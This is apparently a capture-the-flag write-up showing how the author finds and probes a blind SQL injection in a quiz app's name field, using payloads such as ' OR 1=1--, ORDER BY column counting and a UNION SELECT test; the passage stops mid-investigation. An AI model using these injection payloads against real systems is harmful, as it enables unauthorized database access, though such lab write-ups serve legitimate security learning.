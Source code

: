 What's in store this time?

{F1134460}

There's a big button to access the Admin area, but it requires a username and password. The main focus though is the quiz, where you can enter your name and then step through the pages.

{F1134461}
{F1134462}

When hunting for vulnerabilities, it's good to start by seeing how your input is able to change your target's output. I noticed right away the unusual stat of "There is X other player(s) with the same name as you!". I thought a bit about how that might be implemented on the server. Probably something like:

```python
query = "SELECT count(*) FROM users WHERE name = '" + userInput + "'"
```

If the server isn't sanitizing the input properly, it could be vulnerable to a SQL injection attack. To test this, I crafted a simple payload, setting the name to `' OR 1=1-- `. If we are lucky, the server will process the request like:

```sql
SELECT count(*) FROM users WHERE name = '' OR 1=1-- '
```

This would return the count of all records where either their name is `''` or it is true that `1=1`. Since 1 always equals itself, this would return all records. After clicking through the quiz page to get to the score, I got the result:

```
' OR 1=1-- You Scored
0/3
You're not evil at all!
There is 187882 other player(s) with the same name as you!
```

Awesome! This confirms the vulnerability. This is a "blind" SQL injection because we can't see the database data directly, but we can infer information based on how the page returns. From here I tried to extract a little information:

## How Many Columns Are In The Current Table?
This information is useful to know for when we run `union` queries later. I ran through the quiz using the following names
```
test' ORDER BY 1-- # Returned 143 users with the same name
test' ORDER BY 2-- # Returned 143 users with the same name
test' ORDER BY 3-- # Returned 143 users with the same name
test' ORDER BY 4-- # Returned 143 users with the same name
test' ORDER BY 5-- # Returned 0 users with the same name
```

This means that we have 4 columns in the current table. Ordering by a nonexistent column is not valid.

## What Is The User Table Named?
I had assumed it was named `users`, but doing a sanity test suggested otherwise:
```
test' UNION SELECT 1,2,3,4 FROM users-- # Returned 0 users
```
